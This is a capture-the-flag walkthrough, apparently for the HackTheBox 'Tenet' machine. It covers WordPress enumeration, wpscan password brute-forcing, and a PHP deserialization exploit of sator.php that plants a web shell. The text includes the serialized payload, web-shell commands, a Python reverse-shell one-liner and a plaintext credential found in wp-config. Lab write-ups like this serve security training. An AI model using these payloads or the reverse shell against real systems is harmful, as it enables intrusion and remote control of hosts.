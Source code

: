 # NMAP

```bash
PORT   STATE SERVICE REASON  VERSION

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA4SymrtoAxhSnm6gIUPFcp1VhjoVue64X4LIvoYolM5BQPblUj2aezdd9aRI227jVzfkOD4Kg3OW2yT5uxFljn7q/Mh5/muGvUNA+nNO6pCC0tZPoPEwMT+QvR3XyQXxbP6povh4GISBySLw/DFQoG3A2t80Giyq5Q7P+1LH1f/m63DyiNXOPS8fNBPz59BDEgC9jJ5Lu2DTu8ko1xE/85MLYyBKRSFHEkqagRXIYUwVQASHgo3OoJ+VAcBTJZH1TmXDc4c6W0hIPpQW5dyvj3tdjKjlIkw6dH2at9NL3gnTP5xnsoiOu0dyofm2L5fvBpzvOzUnQ2rps2wANTZwZ
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLMM1BQpjspHo9teJwTFZntx+nxj8D51/Nu0nI3atUpyPg/bXlNYi26boH8zYTrC6fWepgaG2GZigAqxN4yuwgo=
|   256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMQeNqzXOE6aVR3ulHIyB8EGf1ZaUSCNuou5+cgmNXvt

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# WEB

* port 80 --> Default Apache2 page.* 

## http://10.10.10.223/users.txt

![image](https://user-images.githubusercontent.com/68326057/116828371-ec805700-abbb-11eb-8f27-c019bffbac32.png)

## CMS - WordPress

![image](https://user-images.githubusercontent.com/68326057/116828423-24879a00-abbc-11eb-86c9-be34ca3e7a4a.png)

![image](https://user-images.githubusercontent.com/68326057/116828426-2b161180-abbc-11eb-8bdd-22a7251fbe95.png)

**Username:neil**

## wpscan

![image](https://user-images.githubusercontent.com/68326057/116828535-f060a900-abbc-11eb-8ebb-8a7411c5dd4c.png)

 BUT
 
 ![image](https://user-images.githubusercontent.com/68326057/116828622-741a9580-abbd-11eb-88a5-2cd66e7d22f7.png)

Another user

![image](https://user-images.githubusercontent.com/68326057/116828663-b80d9a80-abbd-11eb-879f-a2bc0c755bef.png)

**Username : protagonist**

outdated Version:- 

![image](https://user-images.githubusercontent.com/68326057/116828688-dffcfe00-abbd-11eb-947a-12366a210904.png)

```bash
wpscan --url http://tenet.htb/wp-login.php -U user.txt -P ../../rockyou.txt 
```
```bash
Found sator.php
```
![image](https://user-images.githubusercontent.com/68326057/116828883-361e7100-abbf-11eb-8efd-e9c06927cbfd.png)


# Deserlization attack

1. Downloaded sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```
```php
<?php

class DatabaseExport
{
        public $user_file='reverseshell.php';
        public $data='<?php system($_GET["cmd"]); ?>';
}

$test= serialize(new DatabaseExport);
echo $test;

?>
``
## After deserializing

```bash
O:14:"DatabaseExport":2:{s:9:"user_file";s:16:"reverseshell.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
```

--> Use This site : https://www.urlencoder.org/

```url
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A16%3A%22reverseshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A30%3A%22%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D
```
# user - wwwdata

```bash
http://10.10.10.223/shell.php?cmd=whoami
```

![image](https://user-images.githubusercontent.com/68326057/116829565-02911600-abc2-11eb-870e-44bbbcb7ecbb.png)

```bash
http://10.10.10.223/shell.php?cmd=python3%20-V
```

![image](https://user-images.githubusercontent.com/68326057/116829621-4552ee00-abc2-11eb-96d5-f4d9ec6e9f22.png)

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## wp-config.php

![image](https://user-images.githubusercontent.com/68326057/116829686-cc07cb00-abc2-11eb-8748-92ad7cd6cca1.png)

```bash
neil:Opera2112 
```

![image](https://user-images.githubusercontent.com/68326057/116829722-0a04ef00-abc3-11eb-90e5-78b8b040199c.png)


# user -neil

--> ssh neil@tenet.htb

## sudo -l

![image](https://user-images.githubusercontent.com/68326057/116829834-d9718500-abc3-11eb-940c-6ce8f6906bec.png)

## kernel exploit

![image](https://user-images.githubusercontent.com/68326057/116829902-46851a80-abc4-11eb-9fd1-fcef3b4eb990.png)

![image](https://user-images.githubusercontent.com/68326057/116829916-5dc40800-abc4-11eb-95fe-60982c59e7a6.png)
